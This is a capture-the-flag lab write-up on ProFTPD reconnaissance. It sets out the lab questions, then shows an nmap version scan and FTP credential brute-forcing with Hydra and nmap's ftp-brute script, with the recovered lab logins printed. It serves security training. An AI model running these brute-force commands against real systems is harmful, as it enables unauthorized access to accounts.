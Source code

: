 In this challenge we will look at the basics of ProFTP server reconnaissance.  Please start the lab and answer the following questions:

**Questions**

1. What is the version of FTP server?
2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt to check if any of these credentials work on the system. List all found credentials.
3. Find the password of user “sysadmin” using nmap script.
4. Find seven flags hidden on the server.

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The Target machine should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1

LHOST = 192.79.247.2
RHOST = 192.79.247.3

```
nmap -p- -sS -sV -T 4 -v  192.79.247.3

21/tcp open  ftp     ProFTPD 1.3.5a
```

Brute force the user name and password with Hydra
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.79.247.3 ftp

[21][ftp] host: 192.79.247.3   login: sysadmin   password: 654321
[21][ftp] host: 192.79.247.3   login: rooty   password: qwerty
[21][ftp] host: 192.79.247.3   login: demo   password: butterfly
[21][ftp] host: 192.79.247.3   login: auditor   password: chocolate
[21][ftp] host: 192.79.247.3   login: anon   password: purple
```

Or brute force the usernames and passwords with nmap
```
nmap --script ftp-brute.nse --script-args "passdb=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt,userdb=/usr/share/metasploit-framework/data/wordlists/common_users.txt" 192.79.247.3 -p 21

21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|     demo:butterfly - Valid credentials
|     anon:purple - Valid credentials
|     auditor:chocolate - Valid credentials
|     rooty:qwerty - Valid credentials
|     diag:tigger - Valid credentials
|     administrator:tweety - Valid credentials
|_  Statistics: Performed 230 guesses in 33 seconds, average tps: 6.5
MAC Address: 02:42:C0:4F:F7:03 (Unknown)
```

